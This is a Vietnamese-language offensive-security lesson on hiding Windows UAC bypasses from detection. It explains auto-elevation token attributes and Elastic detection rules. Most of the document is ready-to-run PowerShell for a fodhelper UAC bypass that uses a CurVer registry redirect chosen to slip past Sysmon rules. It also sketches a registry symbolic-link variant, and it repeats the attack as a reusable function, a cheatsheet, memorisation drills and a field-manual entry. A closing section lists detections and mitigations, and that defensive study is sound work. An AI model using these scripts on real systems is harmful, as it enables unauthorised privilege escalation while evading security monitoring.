

> **Prerequisites**: [[10-elevated-com-icmluautil-cmstp|10. Elevated COM — ICMLuaUtil & CMSTP]]
> **Objectives**:
> - Hiểu token security attribute `LUA://HdAutoAp` và `LUA://DecHdAutoAp`
> - Biết defenders dùng attribute này để detect UAC bypass như thế nào
> - Thực hiện registry symbolic link evasion để bypass detection rule monitoring registry key
> - Nắm UACME 3.5+ evasion improvements

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Đã có UAC bypass technique hoạt động (registry hijack family — Lessons 03–06)
> - Mục tiêu: làm cho technique đó khó bị detect hơn
> - Windows 10/11 với Sysmon hoặc Elastic Endpoint deployed
> - Hiểu cơ chế registry symbolic link trong Windows

> [!info] Lesson này là về gì?
> Không phải technique bypass mới — mà là **cách làm cho các technique cũ (đặc biệt fodhelper) tránh detection**. Quan trọng khi Defender/EDR đã có rule cụ thể cho fodhelper/eventvwr registry key writes.

---

## Cơ chế tấn công

### Token Security Attributes — Dấu vết của Auto-Elevation

James Forshaw (`@tiraniddo`) phát hiện: Windows gắn **token security attributes** vào process được auto-elevate. Khi một process được tạo qua auto-elevation flow, token của nó chứa:

- `LUA://HdAutoAp` — process này là một auto-elevated application (hoặc elevated COM object)
- `LUA://DecHdAutoAp` — process này là **descendant** của auto-elevated application

Ý nghĩa với detection: bất kỳ process nào có `LUA://DecHdAutoAp` trong token đều là con cháu của auto-elevated binary — đây là dấu hiệu chắc chắn của UAC bypass nếu process đó là cmd.exe, powershell.exe, hay malicious binary.

Elastic Endpoint 7.16+ capture attribute này trong `process.Ext.token.security_attributes`.

```powershell
# Xem token attributes của process hiện tại (cần NtObjectManager module)
# Hoặc dùng Process Hacker: Properties → Token → Advanced

# PowerShell check (simplified):
$proc = Get-Process -Id $PID
# Token Properties sẽ show LUA://HdAutoAp nếu auto-elevated
```

### Elastic EQL Detection Rule

```text
process where event.action == "start" and
   process.Ext.token.integrity_level_name : ("high", "system") and
   process.Ext.token.security_attributes : "LUA://DecHdAutoAp" and
   process.pe.original_file_name : ("cmd.exe", "powershell.exe", "rundll32.exe", ...)
```

Rule này không cần biết technique cụ thể là fodhelper hay eventvwr — chỉ cần biết process có High Integrity VÀ là descendant của auto-elevated binary.

### Registry Symbolic Link — Evasion Technique (UACME 3.5+)

Technique fodhelper standard để lại IOC rõ ràng:

```cmd
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /d "cmd.exe" /f
```

Sysmon Event ID 13 monitor write vào path `*ms-settings*Shell*Open*command*` → alert.

**Evasion**: Thay vì ghi trực tiếp vào key, tạo **registry symbolic link** trỏ từ key tên khác sang ms-settings\Shell\Open\command. HKCU\Software\Classes\ms-settings sẽ redirect về attacker-controlled key mà không cần write trực tiếp vào `ms-settings\Shell\Open\command`.

```text
Tạo: HKCU\Software\Classes\ms-settings → symlink → HKCU\Software\Classes\attacker_key
Plant payload vào: HKCU\Software\Classes\attacker_key\Shell\Open\command
→ fodhelper đọc ms-settings → theo symlink → thấy payload
→ Sysmon chỉ thấy write vào HKCU\...\attacker_key\... (không phải ms-settings)
```

### Thực hiện Registry Symlink

Registry symbolic link cần dùng NtCreateKey với `REG_OPTION_CREATE_LINK` flag — không thể làm từ `reg.exe` hay PowerShell cmdlet thông thường. Cần dùng P/Invoke hoặc NtObjectManager:

```powershell
# Cần module NtObjectManager (James Forshaw's tool)
Import-Module NtObjectManager

# Tạo registry symlink
$pid_val = Invoke-RAiProcessRunOnce
$p = Get-Process -Id $pid_val
$t = Get-NtToken -Process $p
$id = New-NtTokenDuplicate -Token $t -ImpersonationLevel Identification

Invoke-NtToken $id -ImpersonationLevel Identification {
    Get-NtDirectory "\??" | Out-Null
}

$auth = Get-NtTokenId -Authentication -Token $id

# Create symlink: ms-settings → attacker_key
New-NtSymbolicLink "\Sessions\0\DosDevices\$auth\HKCU:Software\Classes\ms-settings" `
    "\REGISTRY\USER\<SID>\Software\Classes\attacker_key"
```

Approach đơn giản hơn cho lab — dùng C# với P/Invoke (compile trước):

```csharp
// Simplified registry symlink via NtCreateKey
// Requires SeCreateSymbolicLinkPrivilege hoặc Medium Integrity workaround
using Microsoft.Win32;
using System.Runtime.InteropServices;

// NtCreateKey với REG_OPTION_CREATE_LINK
[DllImport("ntdll.dll")]
static extern int NtCreateKey(
    out IntPtr KeyHandle, uint DesiredAccess,
    ref OBJECT_ATTRIBUTES ObjectAttributes,
    uint TitleIndex, ref UNICODE_STRING Class,
    uint CreateOptions,  // 0x100 = REG_OPTION_CREATE_LINK
    out uint Disposition);
```

### CurVer Redirect — Simpler Alternative

Approach đơn giản hơn (không cần symlink API) từ UACME 3.5+:

```powershell
# Thay vì ghi trực tiếp vào ms-settings\Shell\Open\command
# Dùng CurVer để redirect ProgID

# Step 1: Set CurVer của ms-settings → tên bất kỳ
New-Item -Force -Path "HKCU:\Software\Classes\ms-settings" | Out-Null
New-ItemProperty -Force -Path "HKCU:\Software\Classes\ms-settings" `
    -Name "CurVer" -Value "ms-settings.1" | Out-Null

# Step 2: Đặt payload ở ProgID mới (ms-settings.1)
$newPath = "HKCU:\Software\Classes\ms-settings.1\Shell\Open\command"
New-Item -Force -Path $newPath -Value "cmd.exe" | Out-Null

# Step 3: Trigger
Start-Process "fodhelper.exe"
Start-Sleep 3

# Cleanup
Remove-Item -Force -Recurse "HKCU:\Software\Classes\ms-settings"
Remove-Item -Force -Recurse "HKCU:\Software\Classes\ms-settings.1"
```

Sysmon rule monitor `*ms-settings*Shell*Open*command*` sẽ **không trigger** vì payload ở `ms-settings.1\Shell\Open\command` — key name hoàn toàn khác.

---

## Quy trình tấn công

**Mục tiêu**: Thực hiện fodhelper bypass với CurVer evasion để bypass Sysmon rule cơ bản.

### Bước 1 — Kiểm tra detection rule đang active

```powershell
# Kiểm tra Sysmon có chạy không
Get-Service Sysmon64 -ErrorAction SilentlyContinue
Get-Process Sysmon64 -ErrorAction SilentlyContinue
```

### Bước 2 — Thực hiện CurVer redirect bypass

```powershell
function Invoke-FodhelperCurVerBypass {
    param([string]$Command = "cmd.exe")

    $msSettings   = "HKCU:\Software\Classes\ms-settings"
    $curVerTarget = "ms-settings.evade"
    $payloadPath  = "HKCU:\Software\Classes\$curVerTarget\Shell\Open\command"

    try {
        # Plant CurVer redirect — write to ms-settings is minimal (just CurVer value)
        New-Item -Force -Path $msSettings | Out-Null
        New-ItemProperty -Force -Path $msSettings -Name "CurVer" `
            -Value $curVerTarget | Out-Null

        # Plant payload at new ProgID — Sysmon rule for ms-settings won't fire
        New-Item -Force -Path $payloadPath -Value $Command | Out-Null

        # Trigger
        Start-Process "C:\Windows\System32\fodhelper.exe"
        Start-Sleep -Seconds 3

        Write-Output "[+] CurVer bypass triggered"
    } finally {
        Remove-Item -Force -Recurse $msSettings -ErrorAction SilentlyContinue
        Remove-Item -Force -Recurse "HKCU:\Software\Classes\$curVerTarget" `
            -ErrorAction SilentlyContinue
        Write-Output "[*] Cleaned up"
    }
}

Invoke-FodhelperCurVerBypass -Command "cmd.exe"
```

> **Expected output**: cmd.exe mới ở High Integrity xuất hiện. Sysmon Event ID 13 chỉ log write vào `HKCU\...\ms-settings.evade\Shell\Open\command` — không match standard fodhelper detection rule.

### Bước 3 — Verify

```cmd
whoami /groups | findstr "High Mandatory"
```

---

## Biến thể & Bypass

### Registry Key Rename Evasion

Combine CurVer với key rename sau khi plant:

```powershell
# Plant payload vào temp name
New-Item -Force -Path "HKCU:\Software\Classes\temp_xyz\Shell\Open\command" `
    -Value "cmd.exe" | Out-Null

# Rename key (via reg.exe hoặc NtRenameKey) → ms-settings.1
# Note: PowerShell không có built-in Rename-RegistryKey, cần P/Invoke
# Workaround: copy + delete
```

### Combine CurVer + SymbolicLinkValue detection evasion

UACME 3.5+ filter thêm: detect `SymbolicLinkValue` write trong HKCU:

```text
SIEM: registry.value : "SymbolicLinkValue" and registry.key : *S-1-5-21*_Classes*
```

Dùng CurVer thay symlink tránh được cả detection này.

---

## Cây quyết định



---

## Command Cheatsheet

**CurVer redirect (full)**

```powershell
# Plant
$ms = "HKCU:\Software\Classes\ms-settings"
$cv = "ms-settings.e"
New-Item -Force -Path $ms | Out-Null
New-ItemProperty -Force -Path $ms -Name "CurVer" -Value $cv | Out-Null
New-Item -Force -Path "HKCU:\Software\Classes\$cv\Shell\Open\command" -Value "cmd.exe" | Out-Null
# Trigger
Start-Process fodhelper.exe; Start-Sleep 3
# Cleanup
Remove-Item -Force -Recurse $ms, "HKCU:\Software\Classes\$cv"
```

**Kiểm tra token attributes (Process Hacker)**

```text
Process Hacker → Process → Properties → Token → Advanced → Security Attributes
Look for: LUA://HdAutoAp (auto-elevated), LUA://DecHdAutoAp (descendant)
```

**Elastic EQL detection (defender side)**

```text
process where process.Ext.token.security_attributes : "LUA://DecHdAutoAp"
  and process.Ext.token.integrity_level_name : "high"
  and process.pe.original_file_name : ("cmd.exe", "powershell.exe")
```

---

## Daily Drill

**Thời gian**: 10 phút/ngày trong 5 ngày.

**Drill 1 — CurVer flow từ trí nhớ**
Mục tiêu: nhớ 3 step: tạo CurVer → plant payload ở ProgID mới → trigger.

```powershell
# 1. Set CurVer
New-ItemProperty -Path "HKCU:\...\ms-settings" -Name "CurVer" -Value "ms-settings.e"
# 2. Plant
New-Item -Path "HKCU:\...\ms-settings.e\Shell\Open\command" -Value "cmd.exe"
# 3. Trigger + cleanup
Start-Process fodhelper.exe; Start-Sleep 3
Remove-Item -Recurse "HKCU:\...\ms-settings", "HKCU:\...\ms-settings.e"
```

Luyện cho đến khi: nhớ tên value `CurVer` và pattern 3 bước không cần nhìn notes.

**Drill 2 — Token attributes**
Mục tiêu: nhớ tên attribute và ý nghĩa.

| Attribute | Ý nghĩa |
|----------|---------|
| `LUA://HdAutoAp` | Process này là auto-elevated app |
| `LUA://DecHdAutoAp` | Process này là **descendant** của auto-elevated app |

Luyện cho đến khi: đọc attribute name → biết ngay ý nghĩa trong context detection.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Token-based detection** (Elastic 7.16+, most reliable):
> - `process.Ext.token.security_attributes : "LUA://DecHdAutoAp"` kết hợp High Integrity
> - Technique-agnostic — detect mọi UAC bypass qua auto-elevation, không cần biết technique cụ thể
>
> **CurVer detection** (thêm vào Sysmon):
> - Write đến `HKCU\Software\Classes\ms-settings` (bất kỳ value nào) là suspicious
> - `registry.path : "*ms-settings*" AND registry.value : "CurVer"`
>
> **SymbolicLinkValue detection** (UACME 3.5):
> - `registry.value : "SymbolicLinkValue" AND registry.key : *_Classes*`

> [!note] Mitigation
> - Deploy Elastic Endpoint 7.16+ với token security attribute monitoring
> - Sysmon rule mở rộng: monitor toàn bộ `HKCU\Software\Classes\` (không chỉ ms-settings\Shell\Open\command)
> - Tăng UAC lên Always Notify — vô hiệu hóa toàn bộ auto-elevation

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| Local VM | Windows 10 + Sysmon | Test standard fodhelper → quan sát Event ID 13, rồi test CurVer → verify không trigger |
| Local VM | Windows 10 + Elastic Agent | Test token attribute detection |
| HTB | **Arkham** (Retired) | Practice evasion trong context real engagement |
| Local VM | Windows Defender ON | Test CurVer bypass với Defender enabled |

---

## Field Manual Entry

> [!abstract] CurVer Registry Redirect — fodhelper Evasion
> **Mục đích**: Bypass Sysmon rule monitor `*ms-settings*Shell*Open*command*`
> **Cơ chế**: ms-settings → CurVer → ms-settings.X → payload (rule không match ms-settings.X)
> **Quick flow**:
> ```powershell
> $cv="ms-settings.e"
> New-ItemProperty -Force "HKCU:\Software\Classes\ms-settings" -Name CurVer -Value $cv
> New-Item -Force "HKCU:\Software\Classes\$cv\Shell\Open\command" -Value "cmd.exe"
> Start-Process fodhelper.exe; Start-Sleep 3
> Remove-Item -Recurse "HKCU:\Software\Classes\ms-settings","HKCU:\Software\Classes\$cv"
> ```
> **Token detect**: `LUA://DecHdAutoAp` — không thể evade, chỉ có thể chấp nhận
> **Ref**: [[11-com-token-security-evasion|11. COM Token Security Attributes & Detection Evasion]]
